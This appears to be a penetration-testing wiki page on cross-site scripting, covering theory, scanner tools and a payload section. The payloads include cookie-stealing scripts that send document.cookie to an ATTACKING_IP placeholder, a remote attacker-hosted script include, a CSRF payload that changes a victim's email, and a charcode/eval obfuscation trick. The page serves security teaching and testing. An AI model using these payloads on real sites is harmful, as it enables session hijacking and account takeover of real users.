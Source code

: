 # XSS (Cross-Site Scripting)

## Theory

Cross-Site Scripting (XSS) is a security vulnerability that occurs when an application includes untrusted data in a web page. Attackers can inject malicious scripts into web pages viewed by other users. These scripts execute in the context of a user's browser, which can lead to a wide range of attacks, such as stealing cookies, session tokens, or sensitive data, defacing websites, or redirecting users to malicious sites.

There are three major types of XSS:

* **Stored XSS**: The injected payload is permanently stored on the server and served to other users when they access the page.
* **Reflected XSS**: The payload is included in the page as a result of a user action, like clicking on a malicious link or submitting a form.
* **DOM-based XSS**: while stored and reflected XSS attacks exploit vulnerabilities in the server-side code, a DOM-based XSS exploits client-side ones (e.g. JavaScript used to help dynamically render a page). DOM-based XSS usually affect user inputs that are temporarily reflected, just like reflected XSS attacks.

## Practice

### Tools

{% tabs %}
{% tab title="XSStrike" %}
[XSStrike](https://github.com/s0md3v/XSStrike) (Python) can be used to scan website for XSS

```bash
python xsstrike.py -u https://target.url/
```
{% endtab %}

{% tab title="XSSer" %}
[XSSer](https://github.com/epsylon/xsser) (Python) is a tool that can detect, exploit and report XSS vulnerabilities on a web application

```bash
# --Cl : Crawl only local target(s)
# -c : Number of urls to crawl on target(s)
# --Cw: Deeping level of crawler: 1-5
# -s: show advanced statistics output results
# --auto: Inject a list of vectors provided by XSSer
# --xml: Export to XML
python xsser -u https://target.url -c 50 --Cw 1 --Cl -s --threads 5 --timeout 30 --retries 1 --delay 0 --auto --xml out.xml
```
{% endtab %}

{% tab title="toxssIn" %}
[toxssin](https://github.com/t3l3machus/toxssin) (Python) is an open-source penetration testing tool that automates the process of exploiting Cross-Site Scripting (XSS) vulnerabilities. It consists of an https server that works as an interpreter for the traffic generated by the malicious JavaScript payload that powers this tool (toxin.js).

```bash
# Generate certificates
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# Start toxssin server
python3 toxssin.py -u https://your.domain.com -c /your/certificate.pem -k /your/privkey.pem
```

On the target side, XSS payload should looks like:

```html
<script url="https://your.domain.com/handler.js"></script>
```
{% endtab %}
{% endtabs %}

### Enumeration - Find XSS Vulnerabilities

We have to identify input vectors that may not be properly sanitized and that are stored or reflected. For example:

* URI parameters for reflected and DOM-based XSS
* Other user inputs in forums, chats, comments, posts, and other stored content for stored XSS
* HTTP headers like Cookies (and even User-Agents in some cases)

We can input special characters and observe the output to determine if any of the special characters return unfiltered. The most common special characters used for this purpose include:

```
< > ' " { } ;
```

The following [website](https://transformations.jobertabma.nl/) (or [Github](https://github.com/jobertabma/transformations)) can assist in recognizing the alterations made to user inputs, which can aid in circumventing filters and modifications, enabling the exploitation of XSS vulnerabilities.

### Payloads

{% tabs %}
{% tab title="PoC" %}
Generally we will use following payloads as a proof of concept. It will open an alert window.

```html
<script>alert('XSS');</script>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG onmouseover="alert('XSS')">
<<SCRIPT>alert("XSS");//<</SCRIPT>
```
{% endtab %}

{% tab title="Stealing Cookies" %}
We may send back user cookies to our own webserver using following payloads

```html
<script>var i=new Image;i.src="http://ATTACKING_IP/?"+document.cookie;</script>
<img src=x onerror=this.src='http://ATTACKING_IP/?'+document.cookie;>
<img src=x onerror="this.src='http://ATTACKING_IP/?'+document.cookie; this.removeAttribute('onerror');">
```

On the attacking webserver, we may use [XSS-cookie-stealer.py](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py) to logs each inbound HTTP connection and all the cookies contained in that connection.

{% hint style="info" %}
[The HttpOnly flag](https://owasp.org/www-community/HttpOnly) instructs the browser to deny JavaScript access to the cookie. If this flag is set, we won't be able to steal the cookies.
{% endhint %}
{% endtab %}

{% tab title="CSRF" %}
We may use an XSS vulnerability to perform a CSRF (Cross-Site-Request-Forgery) and make actions on behalf of the user.

```html
#Exemple from https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

We may improve our payload for more reliability. First, compress it using [this website](https://jscompress.com/), and then past it as the following `encode_to_javascript` function argument&#x20;

```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

Run the function and copy result (charcode) to our final payload

```html
<script>eval(String.fromCharCode(121,19,32 [...] 120,95,42,31))</script>
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://owasp.org/www-community/attacks/xss/" %}

{% embed url="https://portswigger.net/web-security/cross-site-scripting" %}

{% embed url="https://www.thehacker.recipes/web/inputs/xss" %}
